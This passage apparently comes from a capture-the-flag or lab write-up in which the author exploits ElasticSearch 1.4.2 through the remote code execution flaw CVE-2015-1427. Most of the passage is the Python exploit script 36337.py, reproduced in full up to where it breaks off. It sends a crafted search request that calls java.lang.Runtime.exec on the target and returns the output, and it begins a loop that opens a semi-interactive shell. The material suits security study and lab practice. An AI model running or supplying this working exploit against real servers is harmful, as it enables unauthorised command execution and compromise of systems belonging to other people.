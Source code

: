 ![screenshot](/assets/images/safeharbor/elasticsearch_cve.PNG) 

## Container 3 - Shell

Version 1.4.2 of ElasticSearch is vulnerable to a remote code execution vulnerability documented in [CVE-2015-1427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427). So any exploits that we find we should make sure they reference this specific CVE.

![screenshot](/assets/images/safeharbor/elasticsearch_exploits.PNG)

We have a few options. We can opt to use the metasploit module which is just fine, or we can try to do it with a standalone exploit. I'm going to choose 36337.py for this one, and remove lines 16-25 because the banner is rather...obnoxious. There are also some weird characters in the banner, so get rid of those for good measure. Let's read the source and get an understanding of how to use it:

```python
import json
import requests
import sys
import readline
readline.parse_and_bind('tab: complete')
readline.parse_and_bind('set editing-mode vi')
__version__ = "20150309.1"

def banner():
    print """ 
    Exploit for ElasticSearch , CVE-2015-1427   Version: %s 
    """ %(__version__)

def execute_command(target, command):
    payload = """{"size":1, "script_fields": {"lupin":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"%s\\").getText()"}}}""" %(command)
    try:
        url = "http://%s:9200/_search?pretty" %(target)
        r = requests.post(url=url, data=payload)
    except Exception, e:
        sys.exit("Exception Hit"+str(e))
    values = json.loads(r.text)
    fuckingjson = values['hits']['hits'][0]['fields']['lupin'][0]
    print fuckingjson.strip()


def exploit(target):
    print "{*} Spawning Shell on target... Do note, its only semi-interactive... Use it to drop a better payload or something"
    while True:
```